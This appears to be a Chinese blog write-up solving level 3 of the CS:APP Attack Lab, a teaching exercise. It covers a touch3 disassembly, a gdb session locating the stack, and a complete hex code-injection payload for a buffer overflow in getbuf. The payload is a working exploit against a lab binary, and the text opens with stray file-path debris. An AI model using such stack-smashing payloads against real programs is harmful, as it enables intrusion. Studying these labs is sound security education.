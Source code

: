 ```c
 }
```

**任务:** 你的任务`getbuf`之后执行`touch3`而不是继续执行test。你必须要传递`cookie`字符串作为参数。每次运行时，堆栈中的地址保持不变，并在堆栈中存储一个字符串。

小建议

- 你需要在利用缓冲区溢出的字符串中包含`cookie`的字符串表示形式。该字符串应该有8个十六进制数组成。注意没有前导0x
- 注意在c语言中的字符串表示会在末尾处加一个`\0`
- 您注入的代码应将寄存器％rdi设置为此字符串的地址
- 调用函数hexmatch和strncmp时，它们会将数据压入堆栈，从而覆盖存放`getbuf`使用的缓冲区的内存部分。 因此，您需要注意在哪里放置您的`Cookie`字符串

字符串必须放在ret地址后面，因为后面函数执行时(在hexmatch函数里,向系统请求了100字节的空间，使可能覆盖变为铁定会覆盖)，会覆盖掉字符串。
而hexmatch比较的是字符串，所以cookie还要转换成字符串(用16进制表示)

**简单分析touch3**

```cpp
00000000004018fa <touch3>:
  4018fa: 53                    push   %rbx
  4018fb: 48 89 fb              mov    %rdi,%rbx
  4018fe: c7 05 d4 2b 20 00 03  movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905: 00 00 00 
  401908: 48 89 fe              mov    %rdi,%rsi
  40190b: 8b 3d d3 2b 20 00     mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911: e8 36 ff ff ff        callq  40184c <hexmatch>
  401916: 85 c0                 test   %eax,%eax
```

逻辑非常简单首先把`rdi`的值传递给`rsi`然后把`cookie`的值传递给`rdi`调用hexmatch函数。这里`rsi`的值应该就是我们的字符串数组的起始地址。

这里我们注意`hexmatch`函数里也开辟了栈帧。并且还有随机栈偏移动。可以说字符串`s`的地址我们是没法估计 的。并且提示中告诉了我们`hexmatch`和`strncmp`函数可能会覆盖我们`getbuf`的缓冲区。所以我们的注入代码要放在一个安全的位置。我们可以把它放到`text`的栈帧中。我们在`getbuf`分配栈帧之前打一个断点。

```sh
b *0x4017a8
(gdb) b *0x4017a8
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) r -q  #gdb调试时传参数放在里面
Starting program: /csapp/attack/ctarget -q
warning: Error disabling address space randomization: Operation not permitted
Missing separate debuginfos, use: yum debuginfo-install glibc-2.28-127.el8.x86_64
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12  buf.c: No such file or directory.
(gdb) info r rsp
rsp            0x5561dca0          0x5561dca0
```

stack : `padding(00..) + pop_rdi(0x40141b) + arg1(stack_str) + touch3(0x4018fa) + stack_str(str(cookies))`

<img src="https://www.kro1lsec.com:442/images/2021/05/09/20210509204933.png" alt="image-20210509111631975" style="zoom:50%;" />

```
48 c7 c7 a8 dc 61 55 68 <-读入我们要执行的汇编语句
fa 18 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 <-返回地址为rsp 
```

